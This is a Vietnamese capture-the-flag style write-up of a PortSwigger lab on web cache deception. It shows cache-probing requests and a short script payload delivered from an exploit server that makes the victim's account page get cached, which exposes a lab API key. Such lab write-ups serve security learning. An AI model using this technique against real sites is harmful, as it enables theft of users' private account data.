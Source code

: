 # Write-up: Exploiting path mapping for web cache deception

### Tổng quan
Khai thác lỗ hổng web cache deception do path mapping sai lệch, sử dụng phần mở rộng `.js` để lừa hệ thống cache lưu trữ trang `/my-account` của tài khoản `carlos`, lấy API key của `carlos`, và submit key để hoàn thành lab.

### Mục tiêu 
- Khai thác web cache deception để lấy API key của tài khoản `carlos` thông qua việc thao túng URL `/my-account` và submit key để hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Community
- Firefox Browser
- Exploit Server (PortSwigger)

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập tài khoản `wiener`:`peter`, quan sát yêu cầu:
    `GET /my-account`
    - Thử thêm phần mở rộng ngẫu nhiên để kiểm tra cache bằng burp repeater:
        `GET /my-account/abc.js`
        - Lần 1: **Phản hồi**: X-Cache: miss, cho thấy nội dung chưa được cache.
            ![hit](./images/1_cache-miss.png)
        - Lần 2: **Phản hồi**: X-Cache: hit, xác nhận hệ thống cache lưu trữ nội dung `/my-account/abc.js`:
            ![hit](./images/1_cache-hit.png)

- **Quan sát**: Hệ thống cache xử lý `/my-account/abc.js` như file tĩnh, lưu trữ nội dung trang `/my-account`, gợi ý khả năng web cache deception.

2. **Khai thác (Exploitation)**
- Sử dụng Exploit Server để lừa nạn nhân (carlos) truy cập URL:
    ```javascript
    <script>document.location="https://lab-id.web-security-academy.net/my-account/1111.js"</script>
    ```
    - Lưu payload vào body của Exploit Server và gửi tới nạn nhân qua chức năng "Deliver exploit to victim":
        ![body](./images/3_body.png)

- Kiểm tra cache để lấy nội dung trang `/my-account` của carlos:
    `GET /my-account/1111.js`
    - **Phản hồi**: `X-Cache: hit`, trả về trang `/my-account` của carlos, chứa API key `sIY3zOkckbCe61yaHYjmTyu3ULzekhDK`:

- Submit API key `sIY3zOkckbCe61yaHYjmTyu3ULzekhDK` qua chức năng submit của lab:
    - Phản hồi: Lab hoàn thành
        ![solved](./images/5_solved.png)

- **Giải thích**: Lỗ hổng web cache deception xảy ra do hệ thống cache sai lầm lưu trữ trang `/my-account` như file tĩnh khi thêm `.js`, cho phép truy xuất nội dung nhạy cảm (API key của carlos) mà không cần xác thực.

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng web cache deception bằng cách thêm phần mở rộng file tĩnh (như .js) để lừa hệ thống cache lưu trữ trang nhạy cảm.
- Nhận thức tầm quan trọng của việc cấu hình cache an toàn và kiểm tra path mapping để ngăn chặn truy xuất trái phép dữ liệu người dùng.

### Tài liệu tham khảo
- PortSwigger: Web Cache Deception

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác web cache deception để lấy API key của người dùng, và hiểu cách bảo vệ hệ thống cache khỏi các cuộc tấn công tương tự. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*